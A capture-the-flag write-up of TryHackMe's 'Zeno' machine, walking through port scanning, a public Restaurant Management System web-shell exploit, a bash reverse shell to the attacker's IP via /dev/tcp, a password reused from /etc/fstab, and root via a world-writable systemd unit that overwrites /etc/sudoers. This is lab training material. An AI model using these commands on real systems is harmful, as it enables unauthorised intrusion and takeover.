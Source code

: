 ```yaml
---
title : "Zeno - Write Up"
date : 2021-10-23T13:13:28+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's medium level machine."
tags : ["RCE","service","sudo","RMS","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/zeno)  | Medium  |  [Biniru](https://tryhackme.com/p/Biniru)  |

## Reconn

Welcome again! 

Let's start this machine with an `nmap` scan, to see what services are running!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.229.206 -p- -sS --min-rate 5000 -n -Pn                                                                            ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 13:16 CEST
Nmap scan report for 10.10.229.206
Host is up (0.14s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.86 seconds
```
Great! An `ssh` service on port `22` and an `unknown(Web server)` service running on port `12340`!

Now let's scan the web port with `gobuster`, to see what files are hidden!

```bash
╰─ lanfran@parrot ❯ scan_long http://10.10.229.206:12340/                                                                                             ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.229.206:12340/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/23 13:38:39 Starting gobuster
===============================================================
/rms (Status: 301)
===============================================================
2021/10/23 13:43:56 Finished
===============================================================
```
A folder with a webpage running on it! 

Let's see this web!

![web](web.png)

`Restaurant Management System` is saying the page, maybe we can find a public exploit for it!

And yes! We have one [here](exp.py)

Running it, will create a php shell where we can get a revere shell connection!

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.229.206:12340/rms/                                                                                    ─╯

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.10.229.206:12340/rms/images/reverse-shell.php
```

We can check if the shell is working with a common command!

```bash
╰─ lanfran@parrot ❯ curl "http://10.10.229.206:12340/rms/images/reverse-shell.php?cmd=id"                                                             ─╯
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
And yes! The server is running with the user `apache`.

## Foothold - User

Let's get a reverse shell!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ curl http://10.10.229.206:12340/rms/images/reverse-shell.php\?cmd\=bash+-i+%3E%26+/dev/tcp/10.9.2.74/1337+0%3E%261                ─╯

------

[Terminal 2]

╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                     ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.229.206] 39332
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
Now, let's scan the machine with `Linpeas` or manually...

We can find a file, storing the shared filesystems! and inside it a password for the user `zeno`.

```bash
bash-4.2$ cat /etc/fstab

#
# /etc/fstab
# Created by anaconda on Tue Jun  8 23:56:31 2021
#
# Accessible filesystems, by reference, are maintained under '/dev/disk'
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info
#
/dev/mapper/centos-root	/	xfs	defaults	0 0
UUID=507d63a9-d8cc-401c-a660-bd57acfd41b2	/boot	xfs	defaults	0 0
/dev/mapper/centos-swap	swap	swap	defaults	0 0
#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=F[REDACTED]a,domain=localdomain,soft	0 0
```

Maybe we can try this password with the user on this machine `edward`...

```bash
bash-4.2$ su edward
Password: 
[edward@zeno home]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
[edward@zeno home]$ cat /home/edward/user.txt 
THM{[REDACTED]}
```
Yep! Worked!

## Root

Now let's escalate to root!

```bash
[edward@zeno home]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```
We can run as sudo the `reboot` binary!

Searching the files of this machine, we found that the `zeno-monitoring.service` is writable for everyone!
```bash
[edward@zeno home]$ ls -la /etc/systemd/system/zeno-monitoring.service
-rw-rw-rw-. 1 root root 141 Sep 21 22:24 /etc/systemd/system/zeno-monitoring.service
```
So we can edit it to run an exploit!

```bash
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

Editing it, should look like this:

```bash
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```
This exploit will add our user to the `sudoers` file, so we can run all commands with `sudo`.

After that, let's reboot the machine and see if the exploit worked!
```bash
[edward@zeno home]$ sudo /usr/sbin/reboot 
```
Wait for the machine to reboot, and connect via `ssh` with the user `edward`.

```bash
╰─ lanfran@parrot ❯ ssh edward@10.10.229.206                                                                                                          ─╯
edward@10.10.229.206's password: 
Last login: Sat Oct 23 14:38:36 2021
[edward@zeno ~]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[edward@zeno ~]$ sudo -l
User edward may run the following commands on zeno:
    (root) NOPASSWD: ALL
```
The exploit worked! We can run any command with sudo!
```bash
[edward@zeno ~]$ sudo su
[root@zeno edward]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@zeno edward]# cat /root/root.txt 
THM{[REDACTED]}
```
And we rooted the machine!

That's all from my side, hope you find this helpful!